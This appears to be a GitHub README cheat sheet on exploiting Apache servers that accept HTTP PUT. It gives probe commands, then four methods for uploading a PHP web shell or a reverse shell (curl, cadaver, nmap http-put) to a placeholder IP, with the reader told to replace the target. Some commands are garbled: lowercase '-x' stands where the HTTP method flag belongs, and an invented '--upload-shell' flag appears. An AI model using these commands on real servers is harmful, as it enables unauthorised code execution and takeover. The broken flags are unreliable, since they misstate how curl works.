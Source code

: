 # Explioting-Apache-PUT
Obtaining code execution by abusing the apache PUT HTTP method

Testing if PUT is enabled via curl
```
curl -x OPTIONS http://10.10.10.10/uploads/ -v

// Replace IP & URI 
```

Testing if PUT is enabled via Davtest
```
davtest -url http://10.10.10.10/uploads/

// Replace IP & URI 
```


Explioting PUT for RCE - Method 1
```
curl -v -x PUT -d '<?php system($_GET['c']);?>' http://10.10.10.10/rev.php

// Replace IP

RCE URL: http://10.10.10.10/rev.php?c=id

```

Explioting PUT for RCE - Method 2
```
curl --upload-shell shell.php -H "Expect: *" http://10.10.10.10/test/shell.php

// Replace IP
// Ensure that the reverse shell (shell.php) is inside your current working directory
// Upload the shell to the target IP:URL where PUT is enabled

```

Explioting PUT for RCE - Method 3
```
cadaver http://10.10.10.10/test/
put shell.php

// Replace IP
// Ensure that the reverse shell (shell.php) is inside your current working directory
// Upload the shell to the target IP:URL where PUT is enabled

```

Explioting PUT for RCE - Method 4
```
nmap -p 80 10.10.10.10 --script http-put --script-args http-put.url='/test/shell.php',http-put.file='shell.php'

// Replace IP
// Ensure that the reverse shell (shell.php) is inside your current working directory

http-put.url= // Where must the reverse shell be saved on the target (Path to where PUT is enabled)
http-put.file= // Where is the reverse shell locally on your box?
```

